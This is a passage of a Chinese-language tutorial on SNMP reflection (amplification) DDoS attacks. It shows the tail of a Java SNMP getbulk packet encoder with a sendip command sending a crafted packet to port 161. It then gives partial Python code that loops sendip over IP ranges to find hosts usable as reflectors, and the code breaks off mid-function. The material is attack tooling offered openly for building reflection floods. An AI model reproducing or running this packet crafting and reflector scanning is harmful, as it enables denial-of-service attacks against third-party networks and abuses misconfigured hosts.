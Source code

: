 ```
        tmp=pdutag+" "+pdulen+" "+pduvalue;
        Communitylen=sumlen(Communityvalues);
        values=versiontag+" "+versionlen+" "+versionvalues+" "+Communitytag+" "+Communitylen+" "+Communityvalues+" "+tmp;
        len=sumlen(values);
        tmp=tag+" "+len+" "+values;
        System.out.println(tmp);
        System.out.println("0x"+qukongge(tmp));
        /*sendip -v -p ipv4 -is 192.168.1.101 -id 192.168.1.102 -p udp -us 8000 -ud 161 192.168.1.102 -d0x302602010104067075626c6963a519020440d32d10020100020164300b300906052b060102010500*/

    }
}
```

注意：getbulk的循环字段就是对应 snmpbulkget 里面的 –Cr 标识位。

第二为了有一定数量的能进行反射的主机，需要一个给力的扫描器，这里会有人想到用zmap来扫描，但是要知道， udp的扫描可不像tcp那种你发请求连接就肯定会有返回连接的，实测有很多udp程序只要你发的数据不符合他接收的格式时，他是无任何反应和回复的，就和这个ip没开相关端口是一样的效果，snmp也是符合这种情况的，所以需要自己在扫描指定ip的时候发送和正常snmp请求的包一样的数据包，来期盼正常的返回，来证明这个ip是否可以用来反射攻击。不知道大家住没注意到zmap是在不久之前才推出了snmp的扫描模块，这个模块我用过，不是太给力。下面是我用python写的一个循环调用sendip发包的程序，来扫描ip段的，里面的pdu是用刚才java编码程序生成出来的。发出的包用一个自写的java程序监听端口，如果有返回信息，就把返回的ip地址输出到文件。

python 3.4版本的

```
#!python
import os
import time
from pip.backwardcompat import raw_input

__author__ = 'qwe'

class ipScan(object):
    def __init__(self, begin, end):
        self.begin = begin
        self.end = end

    def traverseIP(self):
        begin_ip = []
        end_ip = []
        begin = self.begin.split(".")
        end = self.end.split(".")

        #print(begin,end)

        for m in begin:
            begin_ip.append(int(m))
        for n in end:
            end_ip.append(int(n))

        a1 = begin_ip[1]
        b1 = end_ip[1]
        a2 = begin_ip[2]
        b2 = end_ip[2]
        a3 = begin_ip[3]
        b3 = end_ip[3]

        print(a1,b1,a2,b2,a3,b3)

        for o in range(a1,b1+1):
            p=1
            q=1
            if(o==a1):
                p=a2
            else:
```